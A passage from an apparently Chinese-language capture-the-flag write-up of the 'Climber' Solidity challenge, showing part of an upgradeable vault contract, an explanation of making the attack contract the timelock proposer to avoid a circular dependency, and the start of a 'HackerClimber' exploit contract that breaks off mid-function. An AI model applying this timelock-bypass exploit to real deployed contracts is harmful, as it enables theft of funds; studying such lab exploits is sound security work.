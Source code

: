 ```Solidity

    function _setSweeper(address newSweeper) private {
        _sweeper = newSweeper;
    }

    function getLastWithdrawalTimestamp() external view returns (uint256) {
        return _lastWithdrawalTimestamp;
    }

    function _updateLastWithdrawalTimestamp(uint256 timestamp) private {
        _lastWithdrawalTimestamp = timestamp;
    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}

```

同时，我发现不能直接将`propose`动作打包进去，因为会有一个循环依赖的过程（我生我自己），所以需要推举攻击合约为`proposer`，并通过`call`让攻击合约提案。

攻击合约如下，其实写的有点啰嗦，生成`payload`的过程是可以放一起的。但就这样吧！

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ClimberTimelock.sol";
import "hardhat/console.sol";
import {ADMIN_ROLE, PROPOSER_ROLE, MAX_TARGETS, MIN_TARGETS, MAX_DELAY} from "./ClimberConstants.sol";


contract HackerClimber {

    ClimberTimelock timeClock;
    address upgrade;
    address vault;
    address token;
    address owner;

    constructor(address _target,
                address _upgrade,
                address _vault,
                address _token
                ){
                    timeClock = ClimberTimelock(payable(_target));
                    upgrade = _upgrade;
                    vault = _vault;
                    token = _token;
                    owner = msg.sender;
                }
    
    function attack() public{

        console.log( timeClock.delay() );

        address[] memory targets = new address[](5);
        uint[] memory values = new uint[](5);
        bytes[] memory calldatas = new bytes[](5);

        targets[0] = address(timeClock);
        values[0] = 0;
```